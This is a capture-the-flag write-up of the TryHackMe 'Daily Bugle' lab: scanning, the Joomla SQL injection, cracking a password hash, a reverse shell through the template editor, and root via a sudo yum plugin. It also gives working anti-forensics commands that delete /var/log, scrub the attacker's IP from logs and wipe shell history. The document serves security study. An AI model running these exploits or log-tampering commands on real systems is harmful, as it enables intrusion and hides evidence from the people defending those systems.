

# dailybugle

URL: [https://tryhackme.com/room/dailybugle](https://tryhackme.com/room/dailybugle) <span class="badge rounded-pill bg-danger" title="This is a Hard difficulty room."><i class="fa fa-skull-crossbones"></i>&nbsp;Hard</span>

## PHASE 1: Reconnaissance

Description of the room:

> Compromise a Joomla CMS account via SQLi, practise cracking hashes and escalate your privileges by taking advantage of yum.

## PHASE 2: Scanning & Enumeration

### Running: `nmap`

Ran the following:

> `nmap -sCV x.x.x.x`

Interesting ports found to be open:

```python
PORT   STATE SERVICE REASON
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 68:ed:7b:19:7f:ed:14:e6:18:98:6d:c5:88:30:aa:e9 (RSA)
|   256 5c:d6:82:da:b2:19:e3:37:99:fb:96:82:08:70:ee:9d (ECDSA)
|_  256 d2:a9:75:cf:2f:1e:f5:44:4f:0b:13:c2:0f:d7:37:cc (ED25519)
80/tcp   open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.6.40)
| http-robots.txt: 15 disallowed entries 
| /joomla/administrator/ /administrator/ /bin/ /cache/ 
| /cli/ /components/ /includes/ /installation/ /language/ 
|_/layouts/ /libraries/ /logs/ /modules/ /plugins/ /tmp/
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.6.40
3306/tcp open  mysql   MariaDB (unauthorized)
```

Also see: [nmap.log](nmap.log)

### Running: `gobuster`

Ran the following:

> `gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://x.x.x.x`

Interesting folders found:

```python
/images          (Status: 301) [Size: 235] [--> http://10.10.239.38/images/]
/media           (Status: 301) [Size: 234] [--> http://10.10.239.38/media/]
/templates       (Status: 301) [Size: 238] [--> http://10.10.239.38/templates/]
/modules         (Status: 301) [Size: 236] [--> http://10.10.239.38/modules/]
/bin             (Status: 301) [Size: 232] [--> http://10.10.239.38/bin/]
/plugins         (Status: 301) [Size: 236] [--> http://10.10.239.38/plugins/]
/includes        (Status: 301) [Size: 237] [--> http://10.10.239.38/includes/]
/language        (Status: 301) [Size: 237] [--> http://10.10.239.38/language/]
/components      (Status: 301) [Size: 239] [--> http://10.10.239.38/components/]
/cache           (Status: 301) [Size: 234] [--> http://10.10.239.38/cache/]
/libraries       (Status: 301) [Size: 238] [--> http://10.10.239.38/libraries/]
/tmp             (Status: 301) [Size: 232] [--> http://10.10.239.38/tmp/]
/layouts         (Status: 301) [Size: 236] [--> http://10.10.239.38/layouts/]
/administrator   (Status: 301) [Size: 242] [--> http://10.10.239.38/administrator/]
/cli             (Status: 301) [Size: 232] [--> http://10.10.239.38/cli/]
```

Also see: [gobuster.log](gobuster.log)

### Running: `nikto`

Ran the following:

> `nikto -h x.x.x.x`

Interesting info found:

```python
+ Server: Apache/2.4.6 (CentOS) PHP/5.6.40
+ /: Retrieved x-powered-by header: PHP/5.6.40.
+ /: The anti-clickjacking X-Frame-Options header is not present. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options
+ /: The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type. See: https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/missing-content-type-header/
+ /robots.txt: Entry '/bin/' is returned a non-forbidden or redirect HTTP code (200). See: https://portswigger.net/kb/issues/00600600_robots-txt-file
+ /robots.txt: Entry '/includes/' is returned a non-forbidden or redirect HTTP code (200). See: https://portswigger.net/kb/issues/00600600_robots-txt-file
+ /robots.txt: Entry '/plugins/' is returned a non-forbidden or redirect HTTP code (200). See: https://portswigger.net/kb/issues/00600600_robots-txt-file
+ /robots.txt: Entry '/tmp/' is returned a non-forbidden or redirect HTTP code (200). See: https://portswigger.net/kb/issues/00600600_robots-txt-file
+ /robots.txt: Entry '/administrator/' is returned a non-forbidden or redirect HTTP code (). See: https://portswigger.net/kb/issues/00600600_robots-txt-file
+ /robots.txt: Entry '/cli/' is returned a non-forbidden or redirect HTTP code (200). See: https://portswigger.net/kb/issues/00600600_robots-txt-file
+ /robots.txt: Entry '/libraries/' is returned a non-forbidden or redirect HTTP code (200). See: https://portswigger.net/kb/issues/00600600_robots-txt-file
+ /robots.txt: Entry '/layouts/' is returned a non-forbidden or redirect HTTP code (200). See: https://portswigger.net/kb/issues/00600600_robots-txt-file
+ /robots.txt: Entry '/modules/' is returned a non-forbidden or redirect HTTP code (200). See: https://portswigger.net/kb/issues/00600600_robots-txt-file
+ /robots.txt: Entry '/cache/' is returned a non-forbidden or redirect HTTP code (200). See: https://portswigger.net/kb/issues/00600600_robots-txt-file
+ /robots.txt: Entry '/components/' is returned a non-forbidden or redirect HTTP code (200). See: https://portswigger.net/kb/issues/00600600_robots-txt-file
+ /robots.txt: Entry '/language/' is returned a non-forbidden or redirect HTTP code (200). See: https://portswigger.net/kb/issues/00600600_robots-txt-file
+ /robots.txt: contains 14 entries which should be manually viewed. See: https://developer.mozilla.org/en-US/docs/Glossary/Robots.txt
+ RFC-1918 /images: IP address found in the 'location' header. The IP is "fe80::4a:61ff:fe51:805b". See: https://portswigger.net/kb/issues/00600300_private-ip-addresses-disclosed
+ /images: The web server may reveal its internal or real IP in the Location header via a request to with HTTP/1.0. The value is "fe80::4a:61ff:fe51:805b". See: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2000-0649
+ PHP/5.6.40 appears to be outdated (current is at least 8.1.5), PHP 7.4.28 for the 7.4 branch.
+ Apache/2.4.6 appears to be outdated (current is at least Apache/2.4.54). Apache 2.2.34 is the EOL for the 2.x branch.
+ PHP/5.6 - PHP 3/4/5 and 7.0 are End of Life products without support.
+ /: Web Server returns a valid response with junk HTTP methods which may cause false positives.
+ /: DEBUG HTTP verb may show server debugging information. See: https://docs.microsoft.com/en-us/visualstudio/debugger/how-to-enable-debugging-for-aspnet-applications?view=vs-2017
+ /: HTTP TRACE method is active which suggests the host is vulnerable to XST. See: https://owasp.org/www-community/attacks/Cross_Site_Tracing
```

Also see: [nikto.log](nikto.log)

### Exploration

OK, we have a lot to start from. Let's enumerate the interesting stuff:

1. Target is running: SSH, an Apache web server with PHP support, and has MariaDB exposed.
1. The `robots.txt` reports lots of misconfiguration.
1. Apache and PHP are old, unpatched versions.
1. If we simply view the website, we see there is a login form, a post that was written by user `Super User`, and if you View Source, we can see this is a Joomla website. From `/README.txt` we see that this is v3.7, specifically.
1. From `gobuster`, most of those folders are for the Joomla site, but some may not be?

Joomla looks to be an open source Content Management System (CMS):

> <https://www.joomla.org/>

#### Use `searchsploit` or ExploitDB (SQLMap)

One place to start is to look for exploits for this specific version of Joomla. When I run:

```bash
searchsploit joomla 3.7
```

That gives me some things to look at:

```text
------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                           |  Path
------------------------------------------------------------------------- ---------------------------------
Joomla! 3.7 - SQL Injection                                              | php/remote/44227.php
Joomla! 3.7.0 - 'com_fields' SQL Injection                               | php/webapps/42033.txt
Joomla! Component ARI Quiz 3.7.4 - SQL Injection                         | php/webapps/46769.txt
Joomla! Component com_realestatemanager 3.7 - SQL Injection              | php/webapps/38445.txt
Joomla! Component Easydiscuss < 4.0.21 - Cross-Site Scripting            | php/webapps/43488.txt
Joomla! Component J2Store < 3.3.7 - SQL Injection                        | php/webapps/46467.txt
Joomla! Component JomEstate PRO 3.7 - 'id' SQL Injection                 | php/webapps/44117.txt
Joomla! Component Jtag Members Directory 5.3.7 - Arbitrary File Download | php/webapps/43913.txt
Joomla! Component Quiz Deluxe 3.7.4 - SQL Injection                      | php/webapps/42589.txt
------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results
```

From this, the second one (`42033.txt`) seemed to be the most straight-forward. That gives instructions on how exploit a SQL Injection (SQLi) vulnerability using `sqlmap`. So, I ran:

```bash
sqlmap -u "http://10.10.239.38/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" \
    --risk=3 --level=5 --random-agent --dbs -p list[fullordering] 
```

The first (`44227.php`) looks like it requires the ability to run that PHP code on the server, which we can't do yet. The rest are vulnerabilities for specific components where we don't know if any of those are installed.

SQLMap ran for about :10 minutes while I was exploring and ultimately **did not find anything**.

#### Using the Joomla Python Exploit + JTR

Whilst searching for the product, version, "exploit", and "github", several sites pointed to the SQLMap approach above. There is a specific Github repo that has a single Python file:

> <https://github.com/stefanlucas/Exploit-Joomla>

I download that run:

```bash
python3 ./joomblah.py
```



Within just a minute or two [it found](joomblah.log) the "Super User" user: user Id (number), display name, username, email, and some jumbled text that is probably a hash of their password.

> `$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm`

We can identify that starting `$2` as probably a `bcrypt` hash. So, we put this value in a file called [hash.txt](hash.txt) and then we run John The Ripper (JTR) against it with RockYou:

```bash
clear && john --format=bcrypt --wordlist=/usr/share/wordlists/rockyou.txt ./hash.txt
```

Within about 5 minutes, JTR cracks the password.

## PHASE 3: Gaining Access & Exploitation

Using the password that JTR found, we can now log in to `/administrator/` URL with `jonah` as the username, and the JTR password. We can now view the administration of the Joomla site.

### Unprivileged Access

An obvious place to start for a reverse shell would be the "Media" section of the admin console. We could upload a PHP file, and then "view" it, to execute it. Despite us being a Super User, and there being options for allowing/disallowing specific file extensions and content-types, I could not get a file to upload.

So, after some googling one way to run your reverse shell PHP is edit/overwrite a file from the theme, similar to Wordpress. So, [according to this page](https://z9fr.github.io/post/reverse-shell-using-joomla/) for example, you can pick the unused "Beez3" template, override the `/index.php` with your reverse shell, and then navigate to `/index.php`. On this page:

> `/administrator/index.php?option=com_templates&view=styles`

You can set the "Default" theme. So, make your changes, go access `/index.php` in another instance, and then set the default back again.

#### Exploring

If we run `sudo -l` to see if we can run anything as `root`, I get an error:

```text
sudo: no tty present and no askpass program specified
```

For the life of me, I can't seem to upgrade this shell experience, so I can't get this to work.

Next, I check my groups and see if my groups own anything weird:

```bash
# List the groups I belong to:
groups

# Search the whole file system for files that are owned by this group:
find / -group apache -type f 2>/dev/null
```

I noted that `suexec` is one of the files, but after some research about exploits for it, it's not privilege escalation, it's just to run commands as the `apache` account, and we're already logged in as that account. Run `searchsploit suexec` to learn more.

Next, looking around we find `/var/www/html/configuration.php` which has database credentials. We also see there is one user `jjameson` on the box. Let's see if by-chance that password is also for `jjameson`? It IS.

The user flag is available here: `/home/jjameson/user.txt`

##### Rabbit-Hole: Linpeas + old OS/Kernel

Next, let's get Linpeas on that machine. I host a quick web server from my `~/Downloads` folder with `python3 -m http.server 8000`. Then, from the target, I run:

```bash
wget http://10.6.90.119:8000/linpeas.sh
```

When we run that, [most of what it finds](linpeas.log) is going to be related to the old OS and old Linux kernel. Running:

```bash
uname -a

cat /etc/os-release
```

Respectively produce:

```text
# uname
Linux dailybugle 3.10.0-1062.el7.x86_64 #1 SMP Wed Aug 7 18:08:02 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux

# /etc/os-release
NAME="CentOS Linux"
VERSION="7 (Core)"
ID="centos"
ID_LIKE="rhel fedora"
VERSION_ID="7"
PRETTY_NAME="CentOS Linux 7 (Core)"
ANSI_COLOR="0;31"
CPE_NAME="cpe:/o:centos:centos:7"
HOME_URL="https://www.centos.org/"
BUG_REPORT_URL="https://bugs.centos.org/"

CENTOS_MANTISBT_PROJECT="CentOS-7"
CENTOS_MANTISBT_PROJECT_VERSION="7"
REDHAT_SUPPORT_PRODUCT="centos"
REDHAT_SUPPORT_PRODUCT_VERSION="7"
```

So, doing a:

```bash
searchsploit linux kernel 3.10.0
```

There are several exact matches. Ultimately, I find credentials in `/configuration.php`, so I abandoned this path.

### Privilege Escalation / Privileged Access

We are currently SSH'ed into the target as `jjameson` using the password found in `/var/www/html/configuration.php`. We can run a: `sudo -l`:

```text
Matching Defaults entries for jjameson on dailybugle:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin, env_reset, env_keep="COLORS DISPLAY HOSTNAME
    HISTSIZE KDEDIR LS_COLORS", env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE", env_keep+="LC_COLLATE
    LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
    env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY", secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User jjameson may run the following commands on dailybugle:
    (ALL) NOPASSWD: /usr/bin/yum
```

Doing a quick search on gtfobins, gives us an easy solution:

> <https://gtfobins.github.io/gtfobins/yum/#sudo>

I'll recreate it here. We basically construct a plug-in that just spawns a shell. Then we tell `yum` to run our plug-in. You can copy/paste this block of code:

```bash
TF=$(mktemp -d)
cat >$TF/x<<EOF
[main]
plugins=1
pluginpath=$TF
pluginconfpath=$TF
EOF

cat >$TF/y.conf<<EOF
[main]
enabled=1
EOF

cat >$TF/y.py<<EOF
import os
import yum
from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
requires_api_version='2.1'
def init_hook(conduit):
  os.execl('/bin/sh','/bin/sh')
EOF

sudo yum -c $TF/x --enableplugin=y
```

You now have a `root` prompt. The root flag is available at: `/root/root.txt`

## PHASE 4: Maintaining Access & Persistence

This is a test/CTF machine, so this is out of scope. However, in a Red Team scenario, we could:

- Add SSH key to `/root/.ssh/authorized_keys`
- Create a privileged account that wouldn’t draw attention (ex: `operations`) or an unprivileged account and give it `sudo` access via group or directly in the `/etc/sudoers` file.
- Install some other backdoor or service.

## PHASE 5: Clearing Tracks

This is a test/CTF machine, so this is out of scope. However, in a Red Team scenario, we could:

### Delete Logs

Delete relevant logs from `/var/log/` - although that might draw attention.

```bash
rm -Rf /var/log/*
```

### Replace our IP

Search and replace our IP address in all logs.

#### OPTION 1: Simple

The simplest way is via something like:

```bash
find /var/log -name "*" -exec sed -i 's/10.10.2.14/127.0.0.1/g' {} \;
```

This searches for all files under `/var/log/` and for each file found, searches for `10.10.2.14` (replace this with your IP) and and replace anywhere that is found with `127.0.0.1`.

#### OPTION 2: Complex

You could come up with your own scheme. For example, you could generate a random IP address with:

```bash
awk -v min=1 -v max=255 'BEGIN{srand(); for(i=1;i<=4;i++){ printf int(min+rand()*(max-min+1)); if(i<4){printf "."}}}'
```

I'd like this to use a new, unique, random IP address for every instance found, but `sed` doesn't support command injection in the search/replace operation. However, you could generate a random IP address to a variable and use that for this search and replace, like below. Note that the `2> /dev/null` hides any error messages of accessing files.

##### As separate statements

In case you want to work out each individual piece of this, here they are as separate statements:

```bash
# MY IP address that I want to scrub.
srcip="22.164.233.238"

# Generate a new, unique, random IP address
rndip=`awk -v min=1 -v max=255 'BEGIN{srand(); for(i=1;i<=4;i++){ printf int(min+rand()*(max-min+1)); if(i<4){printf "."}}}'`

# Find all files and replace any place that you see my IP, with the random one.
find /var/log -name "*" -exec sed -i "s/$srcip/$rndip/g" {} \; 2> /dev/null
```

##### As one ugly command

This is something you could copy/paste, and just change your IP address.

Basically, just set your `srcip` to your workstations' IP first, and MAKE SURE to run this with a space prefixed, so this command doesn't get written to the shell's history files (e.g. `~/.bash_history`, `~/.zsh_history`, etc.)

```bash
 srcip="10.10.10.10" ; find /tmp -name "*" -exec sed -i "s/$srcip/`awk -v min=1 -v max=255 'BEGIN{srand(); for(i=1;i<=4;i++){ printf int(min+rand()*(max-min+1)); if(i<4){printf "."}}}'`/g" {} \; 2>/dev/null
```

or optionally, start a new shell, turn off command history, AND start the command with a space prefixed (which also should not add the command to the shell history), then exit out of that separate process:

```bash
bash
unset HISTFILE
 srcip="10.10.10.10" ; find /tmp -name "*" -exec sed -i "s/$srcip/`awk -v min=1 -v max=255 'BEGIN{srand(); for(i=1;i<=4;i++){ printf int(min+rand()*(max-min+1)); if(i<4){printf "."}}}'`/g" {} \; 2>/dev/null
exit
```

The key idea here is that hiding your address from the logs would be pointless if the *command* for hiding your address from the logs were in a log some place!

### Wipe shell history

For any accounts that we used, if we don't mind that this will destroy valid entries of the user too (and give them an indication their account was compromised), run a comand like this with `tee` writing out nothing/null to multiple files at once:

```bash
cat /dev/null | tee /root/.bash_history /home/kathy/.bash_history /home/sam/.bash_history
```

## Summary

Completed: [2023-10-01 01:36:36]